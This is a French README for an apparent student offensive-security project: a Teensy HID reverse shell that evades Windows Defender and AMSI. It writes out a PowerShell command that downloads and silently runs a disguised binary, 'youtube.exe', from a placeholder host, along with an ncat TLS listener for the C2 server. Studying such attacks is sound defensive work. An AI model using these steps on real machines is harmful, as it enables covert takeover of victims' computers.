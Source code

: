 # 🔐 Reverse Shell via Teensy & PowerShell (Contournement Windows Defender)

## 🎓 Projet ESGI - Sécurité Offensive
**Auteurs :** Slimani Anis  
**Date :** Juin 2025  
**Vidéo démonstrative :** [YouTube - Démo Reverse Shell](https://youtu.be/8sxigSPht3U?feature=shared)

---

## 🧠 Objectif

Développer un reverse shell fonctionnel et indétectable sur Windows, déclenché automatiquement via une clé **Teensy (HID)**. Le payload est chiffré via **TLS 1.2** et contourne **Windows Defender** sans alertes, en exécutant le script silencieusement.

---

## 🖥️ Architecture du projet
```text
reverse_shell_teensy/
├── teensy_payload.ino # Code Arduino pour la Teensy (injection HID)
├── youtube.exe # Binaire reverse shell à télécharger
├── reverse_shell.ps1 # Script PowerShell avec connexion TLS chiffrée
├── cert.pem / key.pem # Certificats SSL pour le serveur C2
├── README.md # Documentation du projet
```


---

## ⚙️ Fonctionnement global

1. Insertion de la Teensy dans la machine cible
2. Ouverture de PowerShell via HID
3. Téléchargement du binaire `youtube.exe` depuis un serveur Python local
4. Exécution silencieuse du binaire
5. Connexion reverse shell chiffrée TLS vers le serveur C2
6. Contrôle total de la machine à distance (avec chiffrement)

---

## 🧰 1. Code Teensy – Injection automatique

Le fichier `teensy_payload.ino` simule les touches suivantes :

- `Win + R` puis `powershell`
- Téléchargement : `Invoke-WebRequest -Uri http://<ip>:8000/youtube.exe`
- Exécution : `Start-Process $env:USERPROFILE\Downloads\youtube.exe`

> 🔒 Aucun fichier malveillant n’est stocké avant exécution.

---

## 💻 2. Reverse Shell PowerShell (TLS 1.2)

Le script PowerShell `reverse_shell.ps1` :

- Établit une connexion chiffrée TLS 1.2 via `SslStream`
- Exécute les commandes reçues du serveur distant
- Transmet les résultats en flux sécurisé

### 🔐 Exemple de ligne de commande côté serveur :

```bash
ncat --ssl --ssl-cert cert.pem --ssl-key key.pem -lvnp 4444
Toutes les communications sont chiffrées, invisibles dans Wireshark.

🛡️ Contournement de Windows Defender & AMSI
✅ Via Teensy :

Simulation clavier physique non détectable par l’antivirus

✅ Via PowerShell :

Aucun contenu malveillant lisible en clair

Chiffrement SSL empêche l’analyse du trafic

Pas d’obfuscation détectable par AMSI

🔬 Résultats
✔️ Reverse shell actif sur Windows sans détection

✔️ Contrôle distant via TLS

✔️ Contournement réussi de Windows Defender et AMSI

✔️ Injection automatique via HID Teensy



📚 Crédits
Projet réalisé dans le cadre de l'ESGI (Bachelor Cybersécurité), par :
Anis Slimani
